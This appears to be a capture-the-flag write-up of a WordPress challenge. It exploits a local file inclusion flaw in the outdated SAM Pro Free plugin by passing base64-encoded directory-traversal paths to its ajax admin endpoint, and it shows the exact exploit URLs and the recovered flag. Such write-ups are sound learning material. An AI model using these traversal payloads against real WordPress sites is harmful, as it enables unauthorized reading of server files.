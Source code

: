# What The LFI ?

![](./img/1.png#center)

![](./img/2.png#center)

So the website is a wordpress and we are searching for a LFI. First thing I search for links where the LFI could be :

> http://54.201.224.15:14099/?p=1

> http://54.201.224.15:14099/?cat=1

> http://54.201.224.15:14099/?s=test

And I try basic LFI like this :

> http://54.201.224.15:14099/?p=/var/www/blah.php

> http://54.201.224.15:14099/?p=http://google.fr

We are just redirect, on the index page. Our LFI might not be here, let’s try a wpscan since it’s a wordpress. Command :

> wpscan 54.201.224.15:14099

Result :

![](./img/3.png#center)

Interesting there is a plugin not up to date, and there is the LFI.

The scan gives us the location and some reference. Let’s check the reference. We have a Proof of Concept in this one :

[Link]( https://www.pluginvulnerabilities.com/2016/10/28/local-file-inclusion-lfi-vulnerability-in-sam-pro-free-edition/)

We can see that the link “wap” is base64, so let’s base64 our path :

/var/www/blah.php → L3Zhci93d3cvYmxhaC5waHAK

> http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/

Url :

> http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/sam-pro-ajax-admin.php?action=NA&wap=L3Zhci93d3cvYmxhaC5waHAK

Result :

![](./img/4.png#center)

It’s not working because we are in the wrong directory, let’s change it by :

> ../../../../blah.php → Li4vLi4vLi4vLi4vYmxhaC5waHA=

Final url :

> http://54.201.224.15:14099/wp-content/plugins/sam-pro-free/sam-pro-ajax-admin.php?action=NA&wap=Li4vLi4vLi4vLi4vYmxhaC5waHA=

> The flag : flag{dont_include_files_derived_from_user_input_kthx_bai}